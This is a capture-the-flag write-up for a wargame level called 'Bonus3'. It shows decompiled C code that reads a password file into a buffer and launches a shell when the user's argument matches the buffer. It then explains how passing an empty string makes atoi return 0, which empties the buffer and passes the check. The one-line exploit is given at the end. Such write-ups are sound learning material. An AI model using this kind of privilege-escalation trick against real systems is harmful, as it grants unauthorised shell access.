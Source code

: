 # Bonus3

## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(int argc, const char **argv, const char **envp)
{
  char buffer[132]; 
  FILE *pass; 

  pass = fopen("/home/user/end/.pass", "r");
  memset(buffer, 0, 132);
  if ( !pass || argc != 2 )
    return -1;
  fread(buffer, 1, 66, pass);
  buffer[65] = 0;
  buffer[atoi(argv[1])] = 0;
  fread(&buffer[66], 1, 65, pass);
  fclose(pass);
  if ( !strcmp(buffer, argv[1]) )
    execl("/bin/sh", "sh", 0);
  else
    puts(&buffer[66]);
  return 0;
}
```
## Explanation

- After having played with the executable and explored the disassembled version, we understood that
    the program opens the .pass file, copies it to a buffer and does some other stuff, and most
    importantly inserts a null byte in the buffer at the offset given by atoi(argv[1]).

- So we tried a lot of values and tried to understand what the program did every time, but soon
    realised that we wouldn't be able to go anywhere, and that the answer was actually very simple.

- man atoi reminded us that the function returned 0 if given non numeric values, so there was one
    solution to satisfy this condition and execute a shell :
```
if ( !strcmp(buffer, argv[1]) )
    execl("/bin/sh", "sh", 0);
```
- THE EMPTY STRING !

- By having argv[1] as "", atoi(argv[1]) returns 0, and therefore puts a '\0' at the beginning of the
    buffer, and the call to strcmp() on 2 empty strings returns 0. 

## Exploit
```
$   ./bonus3 ""
```
